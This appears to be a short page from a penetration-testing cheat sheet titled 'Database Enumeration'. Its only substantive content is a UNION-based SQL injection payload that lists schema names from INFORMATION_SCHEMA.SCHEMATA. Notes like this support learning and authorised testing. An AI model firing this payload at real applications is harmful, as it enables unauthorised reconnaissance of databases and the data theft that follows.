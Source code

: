 # Database Enumeration





<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Information Schema

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

